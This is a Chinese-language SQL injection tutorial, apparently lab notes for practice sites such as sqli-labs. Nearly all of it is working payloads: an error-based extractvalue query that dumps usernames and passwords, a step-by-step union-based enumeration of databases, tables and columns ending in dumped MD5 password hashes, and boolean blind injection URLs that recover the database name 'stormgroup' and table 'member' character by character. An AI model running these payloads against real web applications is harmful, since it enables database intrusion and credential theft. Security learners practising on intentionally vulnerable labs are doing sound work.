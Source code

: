 ```
?id=1' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users)))--+

?id=1' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','I-kill-you'))))--+ 
```

一.联合注入 判断是否有注入点 ’ and 1=1–+ 猜列数 'order by 1–+ 一直猜到5报错，列数为4 猜库 'and 1=1改为and 1=2 'and 1=2 union select 1,2,3,4–+发现标题为2，内容为3，把2，3换成sql语句 'and 1=2 union select 1,user(),database(),4–+ ’ and 1=2 union select 1,database(),schema\_name,4 from information\_schema.schemata limit 0,1–+ ’ and 1=2 union select 1,database(),schema\_name,4 from information\_schema.schemata limit 1,1–+ ’ and 1=2 union select 1,database(),schema\_name,4 from information\_schema.schemata limit 2,1–+ ’ and 1=2 union select 1,database(),schema\_name,4 from information\_schema.schemata limit 3,1–+ ’ and 1=2 union select 1,database(),schema\_name,4 from information\_schema.schemata limit 4,1–+ 得到五个数据库，假设其中一个数据库为 admin 爆表 ’ and 1=2 union select 1,database(),table\_name,4 from information\_schema.tables where table\_schema=‘admin’ limit 0,1–+ ’ and 1=2 union select 1,database(),table\_name,4 from information\_schema.tables where table\_schema=‘admin’ limit 1,1–+ 猜表里面的列名 ’ and 1=2 union select 1,database(),column\_name,4 from information\_schema.columns where table\_name=‘member’ limit 0,1–+ ’ and 1=2 union select 1,database(),column\_name,4 from information\_schema.columns where table\_name=‘member’ limit 1,1–+ ’ and 1=2 union select 1,database(),column\_name,4 from information\_schema.columns where table\_name=‘member’ limit 2,1–+ ’ and 1=2 union select 1,database(),column\_name,4 from information\_schema.columns where table\_name=‘member’ limit 3,1–+ 假设得到到四个列名id，name，password，status 查询用户名和密码 ’ and 1=2 union select 1,name,password,4 from member limit 0,1–+ ’ and 1=2 union select 1,name,password,4 from member limit 1,1–+ 得到两组md5加密的密码 用md5解密即可

二.盲注 1.数据库长度： http://127.0.0.1/new\_list.php?id=1 and length(database())=10 --+ 不报错说明数据库长度为10。为了快捷定位可以用大于小于进行二分定位。 2.爆数据库名： http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),1,1))=115 --+ s http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),2,1))=116 --+ t http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),3,1))=111–+ o http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),4,1))=114–+ r http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),5,1))=109–+ m http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),6,1))=103–+ g http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),7,1))=114–+ r http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),8,1))=111–+ o http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),9,1))=117–+ u http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select database()),10,1))=112–+ p 数据库名：stormgroup

3.爆表名： http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 0,1),1,1))=109 --+ m

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 0,1),2,1))=101 --+ e

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 0,1),3,1))=109 --+ m

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 0,1),4,1))=98 --+ b

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 0,1),5,1))=101 --+ e

http://127.0.0.1/new\_list.php?id=1 and ascii(substr((select table\_name from information\_schema.tables where table\_schema=‘stormgroup’ limit 0,1),6,1))=114 --+ r

表一：member
